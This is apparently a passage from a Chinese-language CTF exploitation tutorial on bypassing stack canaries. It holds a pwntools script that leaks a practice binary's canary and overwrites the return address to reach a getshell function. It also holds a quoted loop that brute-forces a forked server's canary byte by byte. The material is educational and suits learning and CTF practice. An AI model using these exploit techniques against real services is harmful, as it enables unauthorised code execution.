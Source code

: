 ```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)

io.recv()

io.interactive()
```
### one-by-one 爆破 Canary

对于 Canary，不仅每次进程重启后的 Canary 不同(相比 GS，GS 重启后是相同的)，而且同一个进程中的每个线程的 Canary 也不同。
但是存在一类通过 fork 函数开启子进程交互的题目，因为 fork 函数会直接拷贝父进程的内存，因此每次创建的子进程的 Canary 是相同的。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。
在著名的 offset2libc 绕过 linux64bit 的所有保护的文章中，作者就是利用这样的方式爆破得到的 Canary:
这是爆破的 Python 代码:

```python
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```
